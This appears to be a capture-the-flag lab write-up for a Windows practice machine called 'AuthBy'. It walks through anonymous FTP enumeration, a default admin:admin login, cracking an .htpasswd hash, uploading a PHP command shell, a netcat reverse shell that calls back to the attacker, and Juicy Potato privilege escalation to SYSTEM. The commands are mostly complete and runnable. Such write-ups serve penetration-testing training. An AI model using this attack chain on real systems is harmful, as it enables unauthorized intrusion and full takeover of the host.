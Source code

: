 # AuthBy

### Enumeration

```
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ...
|_dr-xr-xr-x   1 root     root          512 Sep 22 02:21 accounts
| ...
```

There is an information disclosure at accounts directory.

* acc\[Offsec].uac&#x20;
* acc\[anonymous].uac&#x20;
* acc\[admin].uac

```
$ ftp 192.168.234.46
admin:admin
```

There is a .htpasswd file.

```
$ cat .htpasswd 
offsec:$apr1$[REDACTED]

$ hashcat -m 1600 -w 4 -a 0 hash.txt ~/Desktop/rockyou.txt
offsec:[REDACTED]
```

### Initial Access

We need to put cmd.php command shell to admin's ftp directory. Because this directory is a web directory at 242/tcp port.

Web credential - offsec:\[REDACTED]

You can use smbserver.py to get reverse shell with nc.exe.

smbserver.py - [https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py)

nc.exe - [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)

```
\\192.168.49.234\share\nc.exe -e cmd 192.168.49.234 80
```

### PrivEsc

SeImpersonatePrivilege - Enabled

http://ohpe.it/juicy-potato/\
http://ohpe.it/juicy-potato/CLSID

[https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe)

We need to put Juicy.Potato.x86.exe and nc.exe to admin's ftp directory.

```
C:> systeminfo
Windows Server 2008 R2 Enterprise
```

Windows Server 2008 R2 Enterprise CLSID

```
BITS {69AD4AEE-51BE-439b-A92C-86AE490E8B30} NT AUTHORITY\SYSTEM
```

```
C:\wamp\www> Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}

[+] CreateProcessWithTokenW OK
```

```
C:\wamp\www> Juicy.Potato.x86.exe  -l 1337 -p nc.exe -a "-e cmd 192.168.49.234 80" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```
